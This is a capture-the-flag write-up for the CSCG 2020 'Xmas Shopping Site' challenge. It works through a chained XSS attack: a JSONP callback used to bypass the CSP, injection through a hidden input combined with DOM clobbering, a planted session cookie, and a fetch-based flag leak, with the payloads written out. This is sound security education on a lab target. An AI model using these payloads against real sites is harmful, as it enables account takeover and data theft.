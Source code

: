 ```yaml
---
layout: post
title: "CSCG 2020: Xmas Shopping Site"
categories: writeups cscg20
tags: exploitation
author: mawalu
---
```


Like a few other members of KITCTF I participated in the 2020 Cyber Security Challenge Germany Qualification. This is a writeup for "Xmas Shopping Site", one of the three web challenges that were part of the CTF.

### Overview

We are given a link to an online shop at `http://xss.allesctf.net/`. The subdomain already seems to be a hint that this is a client-side channel.

![website screenshot](/imgs/cscg20-xmas-1.png)

The site allows filtering the items using a search bar and adding items to our cart. In addition to this we can submit links for the admin to check and there is a link to "Stage2":

![stage2 screenshot](/imgs/cscg20-xmas-2.png)

The link looks like this `http://stage2.xss.allesctf.net/?token=5ef8ecee6a1ef` and if we change the token we can't open the stage2 page.

Besides the "change background" button in the top right corner, this page is completely static.

### Exploiting stage 1

The search form is not escaping HTML inputs at all and also includes the search term into the page:

```html
<b>"<script>alert('test')</script>"</b> konnte nicht gefunden werden 🙁🙁🙁
```

This isn't directly exploitable because of the [CSP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) of the page includes `default-src 'self' http://*.xss.allesctf.net;` which prevents script tags from being executed if they aren't manually whitelisted in the CSP.

If we look at other resources loaded by the page we can see a call to `/items.php?cb=parseItems`. Assuming `cb` is short for callback this looks like a [JSONP](https://en.wikipedia.org/wiki/JSONP) request. The response to this request looks like this

```javascript
parseItems([{"title": "..."}])
```

which confirms our assumtion. We can combine this with the inital HTML injection vulnerability we found earlier to get a full XSS vulnerability:

```html
<script src="/items.php?cb=alert('test')"></script>
```

This is allowed by the CSP since we don't add the javascript code directly to the dom but load it from the whitelisted `xss.allesctf.net` domain.

### Exploring stage 2

I assumed that with full code execution on stage 1 it should be easy to redirect the user to the second stage. Ignoring the token parameter and all potential problems I started to explore stage 2 independently from the previous one. Since the background change is the only dynamic element on the second stage I took a closer look at it.

The currently selected background theme is set as a hidden input element:

```html
<!-- set bg color -->
<input type="hidden" id="bg" value="tree">

<script nonce="vGXr3XcAC1g67ZaCzeAvTCzPoHc=">
    var backgrounds = {
        'red': [
            '<img class="bg-img" src="/static/img/red.png"></img>'
        ],
        'green': [
            '<img class="bg-img" src="/static/img/green.png"></img>'
        ],
        'tree': [
            '<img class="bg-img" src="/static/img/tree.png"></img>'
        ]
    }
</script>
[...]
<!-- What is CORS? Baby don't hurt me, don't hurt me - no more! -->
<b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>
```

This value is read in the `background.js` script and the corresponding element gets added to the dom:

```javascript
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});
```

To change the background image a post request including the `bg` parameter is sent to the stage2 endpoint.

### Exploiting stage2

We can set our own `bg` value by sending a post request to stage2. Like the search input in stage1 the `bg` value is not getting validated or escaped by the application. As a result we can modify the DOM of the page by setting a background like this:

```html
beginngin of our injection"> <b>some new tags</b> <!-- end of our injection
```

The resulting DOM looks like this:

```html
<input type="hidden" id="bg" value="beginngin of our injection"> <b>some new tags</b> <!-- end of our injection">
<script>
[...]
<!-- What is CORS? Baby don't hurt me, don't hurt me - no more! -->
<b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>
```

Stage 2 also has a CSP set that prevents us from using direclty executing code. In addtion to that it also prevents us from using the gadget we found in the previous stage to inject a script tag. But we can include a starting HTML comment tag to remove everything between the hidden input and the flag. Using a less known javascript features we can also create our own `backgrounds` array and include our own code that way:

```html
innerHTML"><div id="backgrounds"><script>alert('test')</script></div> <!--
```

This achieves three things:

 * Set the value of the `bg`  input to `innerHTML`
 * Create a new div with the id `backgrounds` and some javascript as content
 * Start an HTML comment so everything until the comment is closed by the existing comment tag gets ignored by the browser

DOM elements that have an `id` attribute are available as global variables within javascript. So this

```javascript
// $("#bg").val() returns innerHTML since thats what we set the input to
$("body").append(backgrounds['innerHTML']); // similar to backgrounds.innerHTML
```

appends the script we place in our div to the DOM. Because `background.js` is whitelisted in the CSP it is also allowed to create new script tags. This allows us to bypass the CSP and execute arbitrary javascript.

### Combining the two

Completing the challenge with this information is quite simple

 * Send the admin a link to stage one with a malicious search parameter
 * Use the code execution in stage1 to store the stage2 exploit in the admin's `bg` value
 * Redirect the admin to stage2, the second exploit starts
 * Read the flag and redirect the admin to a domain controlled by you. Include the flag in the URL
 * Profit!

This is not what I did during the CTF :D Instead of storing the stage 2 payload in the admin's session during stage 1, I stored it in my own session. My stage 1 exploit places a new session cookie in the admin's browser so they "see" my malicious background when he visits stage 2:

```javascript
// cookie and token are replaced with values from my session
document.cookie = 'PHPSESSID=${cookie};domain=.xss.allesctf.net;path=/index.php';
location.href='http://stage2.xss.allesctf.net/index.php?token=${token}
```

This was a bit tricky since the session cookie has the `httpOnly` flag set so we can't modify it. This code sets a new cookie but with an path that is longer than the one by the default session cookie (`/index.php` vs `/`). As a result the browser preferse my cookie when the admin visits stage2.

The stage2 does not simply redirect the admin either, Instead I store the flag as new `bg` session value. Since the admin and I share a session I can retrieve the value in my browser:

```html
nnerHTML"> <div id="backgrounds"><script>fetch(window.location.href, {
        headers: {'Content-type': 'application/x-www-form-urlencoded'},
        method: "POST",
        credentials: "include",
        body: 'bg=' + $('b').text()
    });</script>
</div> <!-- a
```

### Final words

I'm always happy to see a client side web challenge and this was a really nice one. And once again I learned that I have to think simpler from time to time